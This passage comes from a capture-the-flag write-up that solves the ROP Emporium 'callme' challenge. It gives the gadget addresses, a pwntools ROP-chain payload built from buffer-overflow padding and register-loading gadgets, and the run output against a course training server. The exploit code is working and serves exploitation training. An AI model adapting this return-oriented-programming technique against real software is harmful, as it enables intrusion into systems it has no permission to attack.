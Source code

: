 Then, we get our gadget addresses:

```python
g_popRdiRdsiRdx = 0x000000000040093c
g_ret = 0x4006be
```

Now, we can start building the payload. We need to use the padding to overwrite the return pointer and then perform each jump and call in order.

```python
padding = b'A' * 40
ropChain = b''

# stack alignment
ropChain += p64(g_ret)

# callmeone
ropChain += p64(g_popRdiRdsiRdx)
ropChain += p64(v_first)
ropChain += p64(v_second)
ropChain += p64(v_third)
ropChain += p64(f_callmeone)

# callmetwo
ropChain += p64(g_popRdiRdsiRdx)
ropChain += p64(v_first)
ropChain += p64(v_second)
ropChain += p64(v_third)
ropChain += p64(f_callmetwo)

# callmethree
ropChain += p64(g_popRdiRdsiRdx)
ropChain += p64(v_first)
ropChain += p64(v_second)
ropChain += p64(v_third)
ropChain += p64(f_callmethree)
```

Finally, we just send off the payload!

```python
print(p.recvuntil(b'> '))
p.sendline(padding + ropChain)
p.interactive()
```

Running this gives us the flag!

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/05-rop/callme/src/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/05-rop/callme/src/libcallme.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 5300: Done
b'callme by ROP Emporium\nx86_64\n\nHope you read the instructions...\n\n> '
[*] Switching to interactive mode
Thank you!
```